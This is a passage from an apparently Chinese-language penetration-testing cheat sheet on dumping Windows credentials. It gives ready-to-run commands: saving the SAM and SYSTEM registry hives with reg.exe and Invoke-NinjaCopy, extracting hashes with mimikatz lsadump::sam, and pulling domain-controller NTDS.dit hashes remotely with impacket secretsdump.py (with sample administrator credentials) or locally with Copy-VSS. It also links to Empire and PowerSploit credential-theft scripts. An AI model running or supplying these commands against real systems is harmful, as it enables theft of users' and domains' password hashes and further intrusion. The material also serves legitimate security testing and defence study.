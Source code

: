 

3.Invoke-PowerDump.ps1

```
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1
```



#### 导出SAM数据库

##### 导出

1. 直接利用reg.exe

```
reg save HKLM\sam sam
reg save HKLM\system system
```

2. Invoke-NinjaCopy.ps1

```
https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1
Invoke-NinjaCopy -Path "C:\Windows\System32\config\SYSTEM" -LocalDestination "C:\system.save"
Invoke-NinjaCopy -Path "C:\Windows\System32\config\SAM" -LocalDestination "C:\SAM.save"

```



##### 从SAM数据库中导出hash

导出hash

```
lsadump::sam /sam:SAM.save /system:SYSTEM.save
```



### 通过域控制器的NTDS.dit文件

Ntds.dit是主要的AD数据库，包括有关域用户，组和组成员身份的信息。它还包括域中所有用户的密码哈希值。为了进一步保护密码哈希值，使用存储在SYSTEM注册表配置单元中的密钥对这些哈希值进行加密。

#### 远程提取

用impacket中的secretsdump.py脚本

`secretsdump.py -just-dc administrator:password@192.168.1.101`



#### 本地提取

https://github.com/samratashok/nishang/blob/master/Gather/Copy-VSS.ps1

利用Copy-VSS将ntds.dit拷贝到本地

使用impacket中的secretsdump.py解密

